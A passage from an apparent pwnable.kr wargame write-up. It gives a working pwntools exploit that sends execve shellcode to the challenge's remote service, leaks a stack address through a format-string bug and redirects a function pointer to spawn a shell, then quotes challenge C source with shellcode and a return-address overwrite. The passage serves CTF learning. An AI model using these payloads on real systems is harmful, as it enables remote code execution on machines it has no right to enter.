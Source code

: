 We can retrieve the chunk which is originally assigned to `o` and edit the function table inside. Here, we change `byebye` to our target location.

N^X is disabled in this program. The format string bug can leak $esp address for us. Our shellcode can be placed in `v6`(input name). After calculating the offset from $esp to `v6`, we get a redirection address:
```python
from pwn import *

p = remote("pwnable.kr", 9011)

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

p.recvuntil("name?")
p.sendline(shellcode)
p.recvuntil("> ")
p.sendline('2')
p.recvuntil("hello")
p.sendline("%x%x%x%x%x%x%x%x %lx")
p.recvline()
leak = p.recvline()
leak = leak.split(" ")[1]
leak = int(leak, 16) - 0x20
print hex(leak)

p.recvuntil("> ")
p.sendline("4")
p.recvuntil(")")
p.sendline("n")

p.recvuntil("> ")
p.sendline("3")
p.recvuntil("hello")
payload = "AAAAAAAAAAAAAAAAAABCDEFG" + p64(leak)
p.sendline(payload)
p.interactive()
```

While *.bss* is also `rwx`, I think we can also write shellcode inside. And change a function's got to *.bss* area to execute shell.

# fix (pt 35)

## Solution 1

The source code:
```c
#include <stdio.h>

// 23byte shellcode from http://shell-storm.org/shellcode/files/shellcode-827.php
char sc[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

```